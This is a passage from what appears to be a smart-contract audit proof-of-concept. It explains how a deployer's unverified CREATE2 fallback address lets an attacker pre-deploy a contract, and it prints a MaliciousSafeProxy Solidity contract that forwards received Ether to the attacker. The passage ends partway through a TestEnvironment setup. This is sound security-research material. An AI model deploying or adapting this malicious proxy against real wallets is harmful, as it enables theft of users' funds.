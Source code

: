 **Explanation:**

- **Function Attempt:** The contract attempts to deploy a new `SafeProxy` using `createProxyWithNonce`.
- **Failure Handling:** If the deployment fails (e.g., due to the address already being occupied), the `catch` block calculates the expected address using `CREATE2` and assigns it to `walletInstance.safe` without verifying the proxy's integrity.
- **Assumption Flaw:** It assumes the proxy at the calculated address is the intended `SafeProxy`, which may not hold true if an attacker has pre-deployed a malicious contract at that address.

### **2. MaliciousSafeProxy Contract**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.25;

contract MaliciousSafeProxy {
    address public owner;
    address public safeProxyLogic;

    constructor(address _logic) {
        owner = msg.sender;
        safeProxyLogic = _logic;
    }

    fallback() external payable {
        // Malicious fallback to intercept any calls
        if (msg.value > 0) {
            payable(owner).transfer(msg.value);
        }
    }

    receive() external payable {}
}
```

**Explanation:**

- **Purpose:** This contract mimics the `SafeProxy` interface but includes a malicious fallback function.
- **Malicious Behavior:** Any Ether sent to this proxy is immediately transferred to the attacker's address (`owner`), enabling unauthorized fund extraction.

### **3. TestEnvironment Contract to Simulate the Attack**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.25;

import "./InstanceDeployer.sol";
import "./MaliciousSafeProxy.sol";
import "./Safe.sol";
import "./Guard.sol";
import "./TimelockFactory.sol";
import "./Multicall3.sol";

contract TestEnvironment {
    InstanceDeployer public deployer;
    MaliciousSafeProxy public maliciousProxy;
    Safe public safeProxyLogic;
    Guard public guard;
    TimelockFactory public timelockFactory;
    Multicall3 public multicall3;
    SafeProxyFactory public safeProxyFactory;
    bytes public safeInitdata;
    uint256 public creationSalt;
```